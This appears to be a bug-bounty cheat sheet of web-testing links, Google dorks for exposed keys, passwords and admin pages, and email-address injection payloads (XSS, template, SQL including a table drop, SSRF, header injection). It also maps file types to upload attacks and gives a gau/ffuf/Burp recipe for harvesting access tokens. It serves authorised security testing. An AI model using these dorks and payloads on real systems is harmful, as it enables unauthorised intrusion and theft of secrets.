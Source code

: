 ## Bunch of web related stuff to read 

https://pentester.land/

---

## Web ui to test your code 

 jsfiddle.net 

---


## Don't find what you need ? List of writeups, search with keywords.

https://pentester.land/list-of-bug-bounty-writeups.html?fbclid=IwAR1_Q5WRS8Q0mmF4fpxMXLeWmboBxicAAdyqscrnGB1Uxiznu-FjS1xJZSs

---

## Drupal 

Find hidden pages : fuzz /node/$ where $ is a number.

---

## Payload needed ? Here are lists

- SecLists
- Payloadallthethings
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---

## Need info on how to hunt something ?

https://github.com/KathanP19/HowToHunt
https://www.infosecmatter.com/bug-bounty-tips-1/

---



## Some google dorks

```
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
site:target.com inurl:admin | administrator | adm | login | l0gin | wp-login
intitle:"login" "admin" site:target.com
inurl:admin site:target.com
site:target.com ext:txt | ext:doc | ext:docx | ext:odt | ext:pdf | ext:rtf | ext:sxw | ext:psw | ext:ppt | ext:pptx | ext:pps | ext:csv | ext:mdb
intitle:"index of /" Parent Directory site:target.com
intitle:"index of /admin" site:target.com
intitle:"index of /password" site:target.com
intitle:"index of /mail" site:target.com
intitle:"index of /" (passwd | password.txt) site:target.com
intitle:"index of /" .htaccess site:target.com
inurl:passwd filetype:txt site:target.com
inurl:admin filetype:db site:target.com
filetype:log site:target.com
link:target.com -site:target.com
```


---

## Email address payload 

By @securinti (compiled by @intigriti)
Source: link

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:
```
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:
```
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):
```
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:
```
victim&email=attacker@example.com
```

(Email) header injection:
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

---

## Top 10 file upload scenario

ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE

---

## Find access tokens with ffuf and gau
By @Haoneses

- Gather all links of your target:
`cat hosts | sed 's/https\?:\/\///' | gau > urls.txt`

- Filter out javascript urls:
`cat urls.txt | grep -P "\w+\.js(\?|$)" | sort -u > jsurls.txt`

- Use ffuf to get only valid links and send them right into Burp:
`ffuf -mc 200 w jsurls.txt:HFUZZ -u HFUZZ -replay-proxy http://127.0.0.1:8080`

- Use Scan Check Builder Burp extension, add passive profile to extract “accessToken” or “access_token”.

- In Burp run passive scan on those javascript links.

- Extract found tokens and validate them before reporting.

- Use KeyHacks to identify particular API keys, how can they be used and how to check if they are valid.

- Make sure to also try to extract other file types such as .php, .json etc. (Step 2).


---

## NTLM authentication with BurpSuite

1. proxy / options / uncheck "Set Connection Close"
2. User Options / platform authentication / add NTLM

NTLM authenticates the TCP connection, which is not kept alive when using a proxy. This trick solve the issue.





